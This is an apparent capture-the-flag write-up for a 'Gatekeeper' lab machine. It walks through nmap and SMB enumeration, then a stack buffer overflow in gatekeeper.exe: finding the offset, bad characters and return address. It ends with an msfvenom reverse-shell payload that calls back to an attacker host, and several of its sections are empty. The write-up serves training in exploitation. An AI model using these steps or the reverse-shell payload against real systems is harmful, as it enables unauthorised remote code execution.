# Gatekeeper

## Scanning & Enumeration

Doing a nmap scan

```bash
nmap -p- -T4 gatekeeper -vv -sC
nmap -p135,445,139,3389,49161,49152,31337,49153,49154,49160,49164 -T4 -A gatekeeper -oN nmap.txt
```

Output:

```bash
```

#### Port 135/445 SMB

Listing smb shares

```bash
smbclient -L gatekeeper
```

We find a smb share called **Users**  

```bash
smbclient \\\\gatekeeper\\Users
```

If we try to get access and we find a **gatekeeper.exe** file

There is a buffer overflow here somewhere so I will try to exploit it  
We can spawn a windows instance running Immunity debugger  
In my case it was the box from **Buffer Overflow Prep** from THM

To get the **gatekeeper.exe** into our windows machine we can use:

```powershell
certutil -urlcache -split -f http://10.11.1.219/gatekeeper.exe
or
Invoke-WebRequest http://10.11.1.219/gatekeeper.exe -Outfile .\gatekeeper.exe
```

Running it shows as that it listens for connections...  
Doing an nmap scan we find out that a gate 31337 is open!!!!  

We now run it throught the Immunity Debugger  
nc into the machine and type a long string of bytes... It crashes  

Buffer Overflow!!

Following the methodology from the **Buffer Overflow Prep** we find:

It crashes somewhere around **150** characters

Our payload (200 chars) is:

```bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Our offset is: **146**  
We also have 32 bit architecture, so we now (after the BBBB check) we move into
finding the bad chars.

```bash
python3 -c "print(146*'A' + '\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff')"
```

ESP: **015D19F8**

Bad chars: **\x00\x0a**

Our return address is: **\xC3\x14\x04\x08**

## Exploitation

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.219 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f py
```

```bash
python2 crasher.py
```

## Post Exploitation

## Priviledge Escalation

```json
```
